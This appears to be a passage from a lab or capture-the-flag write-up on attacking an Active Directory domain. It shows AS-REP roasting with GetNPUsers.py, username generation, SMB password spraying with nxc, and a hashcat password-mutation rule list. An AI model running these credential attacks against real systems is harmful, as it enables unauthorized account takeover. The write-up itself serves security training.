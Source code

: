 ## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py nagoya-industries.com/ -dc-ip $IP -no-pass -usersfile usernames
```

I cannot find vulnerable users, but we learned username formats is `firstname.lastname`.

```bash
sudo /opt/brute-force/username-anarchy/username-anarchy -f first.last -i users > userss
```

### Password Spraying

```bash
sudo nxc smb $IP -u userss -p usernames --continue-on-success
```

this didn’t work, in this case I am gonna try to make a new list for passwords, with seasons and years, I see 2023 in the website, I am gonna use that year, reverse of usernames, and usernames as password list.

![image.png](image%209.png)

```bash
rev usernames >> passwordlist
```

![image.png](image%2010.png)

But this didn’t return a success.

I am gonna work for now just with small part where we wrote seasons and nagoya, and find variations of it and then will do same for whole part. I am gonna hashcat for passwrod mutation and I am gonna use this rule

```bash
:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```
